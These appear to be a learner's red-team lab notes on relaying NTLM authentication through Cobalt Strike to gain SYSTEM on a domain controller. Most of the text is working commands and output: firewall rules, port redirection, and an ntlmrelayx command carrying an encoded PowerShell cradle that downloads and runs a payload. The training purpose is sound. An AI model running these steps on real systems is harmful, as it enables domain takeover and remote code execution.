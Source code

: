 NTLM authentication uses a 3-way handshake between a client and server.  The high-level steps are as follows:

1. The client makes an authentication request to a server for a resource it wants to access.
2. The server sends a challenge to the client - the client needs to encrypt the challenge using the hash of their password.
3. The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.

During an on-premise penetration test, NTLM relaying with tools like [Responder](https://github.com/lgandx/Responder) and [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx) is quite trivial.  However, it's a different story with this style of red team assessment, not least because we can't typically run Python tools on Windows.  Port 445 is always bound and in use by Windows - even local admins can't arbitrarily redirect traffic bound to this port or bind another tool to this port.

It's still possible to do with Cobalt Strike, but requires the use of multiple capabilities simultaneously.

1. A [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

![[Pasted image 20231204161039.png]]

# NTLM Setup

on `WKSTN-2` add two firewall rules to enable port forwarding from `WKSTN` to the `ATTACKER DESKTOP` beacon 
- need to have system on the machine that trying to do this on

firewall rule for `8445-in`
`powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445`
```powershell
[12/04 21:12:11] beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
[12/04 21:12:11] [*] Tasked beacon to run: New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
[12/04 21:12:11] [+] host called home, sent: 343 bytes
[12/04 21:12:14] [+] received output:
#< CLIXML


Name                          : {72979970-39b9-49e6-a451-1a7e2853c714}
DisplayName                   : 8445-In
Description                   : 
DisplayGroup                  : 
Group                         : 
Enabled                       : True
Profile                       : Any
Platform                      : {}
Direction                     : Inbound
Action                        : Allow
EdgeTraversalPolicy           : Block
LooseSourceMapping            : False
LocalOnlyMapping              : False
Owner                         : 
PrimaryStatus                 : OK
Status                        : The rule was parsed successfully from the store. (65536)
EnforcementStatus             : NotApplicable
PolicyStoreSource             : PersistentStore
PolicyStoreSourceType         : Local
RemoteDynamicKeywordAddresses : 
```
firewall rule for `8080-in`
`powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`
```powershell
[12/04 21:12:21] beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
[12/04 21:12:21] [*] Tasked beacon to run: New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
[12/04 21:12:21] [+] host called home, sent: 343 bytes
[12/04 21:12:24] [+] received output:
#< CLIXML


Name                          : {4aa7bb5e-534f-4192-b587-ac49a1d0f99a}
DisplayName                   : 8080-In
Description                   : 
DisplayGroup                  : 
Group                         : 
Enabled                       : True
Profile                       : Any
Platform                      : {}
Direction                     : Inbound
Action                        : Allow
EdgeTraversalPolicy           : Block
LooseSourceMapping            : False
LocalOnlyMapping              : False
Owner                         : 
PrimaryStatus                 : OK
Status                        : The rule was parsed successfully from the store. (65536)
EnforcementStatus             : NotApplicable
PolicyStoreSource             : PersistentStore
PolicyStoreSourceType         : Local
RemoteDynamicKeywordAddresses : 
```

start two `reverse port forwards`

1st `reverse port forward` for hitting `SMB` listener

```powershell
[12/04 21:12:50] beacon> rportfwd 8445 localhost 445
[12/04 21:12:50] [+] started reverse port forward on 8445 to localhost:445
[12/04 21:12:50] [*] Tasked beacon to forward port 8445 to localhost:445
[12/04 21:12:50] [+] host called home, sent: 10 bytes
```
2nd `reverse port forward` for downloading the `powershell cradle`
`rportfwd 8080 localhost 80`
![[Pasted image 20231204170702.png]]
ensure `socks5` proxy is setup, it doesn't have to be a `socks5` 
`socks 1080`
![[Pasted image 20231204171929.png]]
setup `download cradle` via `cobalt strike` `Scripted Web Service` with `SMB` listener via `powershell`
- setup spits out this `cradle`  `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.50:80/b'))"`

![[Pasted image 20231204173328.png]]

# MAKE SURE THAT SOCKS PROXY IS SETUP ON `WKSTN-2` `SYSTEM` & `/ETC/PROXYCHAINS` is matching!!

start `ntlmrelayx.py` on `attacker desktop` `SSH Team Server` with command:
- where `10.10.122.10` is the ip address of `dc-2.dev.cyberbotic.io` - the target `-t`
- where the `encoded` portion is the downloading cradle pointing at `http://10.10.123.102:8080/b`, and `/b` is the SMB payload - when cyberfchef'ing reverse to figure out was was base64 encoded get an error...
```
sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMgAzAC4AMQAwADIAOgA4ADAAOAAwAC8AYgApAAoA'


the encoding = iex (new-object net.webclient).downloadstring("http://10.10.123.102:8080/b")
iex (new-object net.webclient).downloadstring("http://10.10.123.102:8080/b")

# this doesnt work
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEAMgAzAC4AMQAwADIAOgA4ADAAOAAwAC8AYgApAAoA'
```
![[Pasted image 20231204174637.png]]
*[PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and aggressor script specifically designed to help facilitate relaying through Cobalt Strike.  It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use `C:\Windows\System32\drivers` since this is where most Windows drivers go.*

changing directories to `C:\windows\system32\drivers`
uploading `C:\Tools\Portbender\WinDivert64.sys`
```powershell
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
use `PortBender redirect 445 8445` to redirect all `445` tracker to be redirected `8445` which makes the traffic valid for previously made `firewall` rules
![[Pasted image 20231204174544.png]]
to stop `Port Bender` when finished
```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 2    5740  PortBender

beacon> jobkill 2
beacon> kill 5740
```
# NTLMrelay Trigger
*To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to Workstation 2.  Let's do it manually for now, by using the console of Workstation 1 as the user nlamb.  This user is a domain admin, so we can relay the authentication request to the domain controller.*

on `WKSTN-1`
![[Pasted image 20231204180141.png]]
can see if there was a connection made in the  `TEAM SERVER SSH` with the `ntlmrelayx.py` listener
![[Pasted image 20231204180332.png]]
in the `cobaltstrike` web log can check to ensure that the `download cradle` worked
![[Pasted image 20231204180509.png]]
now just `link` to `dc-2.dev.cyberbotic.io` using the `SMB listener`

`link dc-2.dev.cyberbotic.io TSVCPIPE-1337imherebitch`
![[Pasted image 20231204180640.png]]
on as system on `DC-2`
![[Pasted image 20231204180722.png]]

# Trouble Shooting

ensure that `socks` / `port forwards` are set up correctly and restart the `ntlmrelayx.py` session once they are fixed.